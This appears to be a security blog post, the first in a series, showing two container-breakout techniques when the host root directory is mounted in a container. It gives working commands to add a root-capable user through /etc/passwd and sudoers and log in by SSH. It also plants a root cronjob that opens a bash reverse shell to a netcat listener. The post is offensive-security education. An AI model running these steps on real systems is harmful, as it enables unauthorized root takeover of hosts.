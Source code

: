 ```yaml
---
title: "Container Breakouts – Part 1: Access to root directory of the Host"
date: 2020-07-15T08:39:10+02:00
draft: false
tags:
- docker
- breakout
- security
---
```


This post is part of a series and shows container breakout techniques that can be performed if a container is started with access to the host root directory.

<!--more-->

The following posts are part of the series:
- Part 1: Access to root directory of the Host
- [Part 2: Privileged Container](../container-breakouts-part2)
- Part 3: Docker Socket (not yet published)

<!--
The following posts are part of the series:
- Part 1: Access to root directory of the Host
- [Part 2: Privileged Container](../container-breakouts-part2)
- [Part 3: Docker Socket](../container-breakouts-part3)
-->


## Intro

The **motivation** of this post is to **collect container breakouts**. I was considering writing a huge post about all the stuff you must know to break out of the container. But, if I would do so, it will take ages to write, es well to read and at the end, you would just scroll directly to the PoC code snippets. So I dropped that idea and will just link to additional readings.

I also realized during writing that the post must be sliced into more digestible pieces. 

The **first post** is **about** what could probably go wrong if the **host root directory** is **accessible** from the container. Since we have only access to the disc, this approach is 	not an OpSec-safe approach to escalate your privileges. 

The proposed techniques use Unix operating system features that are more system security related, then container security-related. But, as part of a comprehensive series, it has to take place to show the importance.

## Shared Host root directory

Access to a container that shares directories with the host is **not** an **immediate problem**. **But** if the container has **access to** the **host root directory** as user `root` (pre-assumed that there is no [AppArmor](https://man.cx/apparmor(7)) or [SELinux](https://man7.org/linux/man-pages/man8/selinux.8.html) in place) you hit the jackpot! We have multiple ways to approach the underlying host.

Let’s assume that the host root directory is accessible at `/hostfs`

### SSH to user

To escalate to the host, we **create a user** in the file `/hostfs/etc/passwd` and **add** the user **to** the **sudoer** group. After the user is created, we connect via **SSH** to the host. Admittedly, it is a kind of constructed, because certain packages must have been installed and services running, but you get the idea.

Here are all steps that must be performed (we start in the container).


```
# cat /hostfs/etc/passwd | grep 1000
user:x:1000:1001:user:/home/user:/usr/bin/zsh

# openssl passwd -6 -salt xyz test
$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0

# echo 'foo:$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0:1000:1001:user:/home/user:/usr/bin/zsh' | tee -a /hostfs/etc/passwd

# echo "user ALL=(ALL) NOPASSWD: ALL" >> /hostfs/etc/sudoers.d/0-user

# ip r
default via 172.17.0.1 dev eth0 
172.17.0.0/16 dev eth0 proto kernel scope link src 172.17.0.2 

# ssh -l foo 172.17.0.1
The authenticity of host '172.17.0.1 (172.17.0.1)' can't be established.
ECDSA key fingerprint is SHA256:PezvADaTYqKcp4JfDO1bapTJaMEAVBjCXCCzanBZOW8.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.17.0.1' (ECDSA) to the list of known hosts.
foo@172.17.0.1's password: 
Last login: Sat Jul 11 12:12:15 2020 from 127.0.0.1

arch [~]% sudo -i                  

[arch ~]# id -a
uid=0(root) gid=0(root) groups=0(root)

```

For this scenario, the SSH daemon is running on the host, the configuration is not hardened and the `sudo` package is installed. The sudo step can be exchanged by creating another user with `uid=0(root)`. Another option would be the creation of SSH keys for existing users.

### Cronjob

Because in a default setup the container is **direct connected to the host**, we can initiate not only connections from the container to the host, also vice-versa. To do so, we need the IP address from the container. Depending on the binaries that are available on the host, we initiate a **reverse shell by** a **cronjob** that connects to an exposed port on the container. In this showcase, we use `bash` for the reverse connection and `netcat` to handle the connection in the container. The following line is all we need:

```
* * * * * root bash -i >& /dev/tcp/$CONTAINER_IP/$CONTAINER_PORT 0>&1
```

The **cronjob** is executed **every minute** as user `root` on the host. So, as soon as the cronjob gets trigger, we are getting **root access to** the **host** system. 

Here are all steps that must be performed (we start in the container).

```
# ip a
[…]
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
[…]

# echo "* * * * * root bash -i >& /dev/tcp/172.17.0.2/1337 0>&1" | tee /hostfs/etc/cron.d/1revers
# nc -lkvp 1337
nc -lvkp 1337
listening on [any] 1337 ...
172.17.0.1: inverse host lookup failed: Unknown host
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.1] 58536
bash: cannot set terminal process group (3138): Inappropriate ioctl for device
bash: no job control in this shell
[arch ~]# id -a
uid=0(root) gid=0(root) groups=0(root)
```

In this second showcase, we assumed that a cron service was running on the host. That is more or less the default on a lot of systems. 

## Conclusion

Both examples are approaches to get direct access to the host system. They are modifying the host and **not minimal-inversive or OpSec-safe**. If you **make mistakes**, you may mix up the configuration of the **host system** and **crash** it. **Be careful !!**

Furthermore, the proposed techniques are possible approaches to escape out of a container if one has access to the host root directory. By the nature of this attack vector, it is more a general Unix privileges escalation technique, then a dedicated container breakout.

I may update the list from time-to-time. If you have important approaches that you think they should be listed, do not hesitate and get in touch.

If you are interested in further, less riotous techniques continue with the next post [Part 2: Privileged Container](../container-breakouts-part2).


